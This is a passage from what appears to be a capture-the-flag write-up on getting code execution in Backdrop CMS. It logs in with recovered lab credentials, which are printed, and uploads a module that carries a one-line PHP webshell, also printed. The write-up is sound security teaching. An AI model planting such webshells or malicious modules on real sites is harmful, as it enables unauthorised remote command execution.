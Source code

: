 I’ll note the creds jpardella / tGPN6AmJDZwYWdhY.

### RCE in Backdrop CMS

#### Login

Using either my chisel proxy or an SSH tunnel, I’ll load the Backdrop page in Firefox. The creds work, and it redirects to the Backdrop admin dashboard:

[![image-20221129140130945](https://0xdfimages.gitlab.io/img/image-20221129140130945.png)](https://0xdfimages.gitlab.io/img/image-20221129140130945.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20221129140130945.png)

#### Exploits

Searching for Backdrop CMS exploits, [this repo](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS) comes up. It describes an attack path using a cross-site request forgery (CSRF) to get an admin to install a malicious plugin, which gives a webshell. I don’t need the CSRF, as I can already log into the admin panel. So I’ll just use the plugin.

I’ll download `reference.tar` from the [release page](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/tag/backdrop) and take a look at it:

![image-20221129141754028](https://0xdfimages.gitlab.io/img/image-20221129141754028.png)

It has the default files similar to what’s in this [example repo](https://github.com/backdrop-contrib/module_template), but it also has a `shell.php`. The idea is that when the module is installed, these files are all decompressed into a location I can know and access.

`shell.php` has a very simple PHP webshell:

```

<?php system($_GET['cmd']);?>

```

#### Upload

I’ll upload the module by going to Functionality > Install New Modules in the top menu:

![image-20221129142042584](https://0xdfimages.gitlab.io/img/image-20221129142042584.png)

At the bottom right of the next page, I’ll click “Manual Installation”:

![image-20221129142130106](https://0xdfimages.gitlab.io/img/image-20221129142130106.png)

I’ll expand the “Upload a module, theme, or layout archive to install”, and give it `reference.tar`:

![image-20221129142223052](https://0xdfimages.gitlab.io/img/image-20221129142223052.png)

On clicking Install, it says it’s successful:

![image-20221129142009737](https://0xdfimages.gitlab.io/img/image-20221129142009737.png)
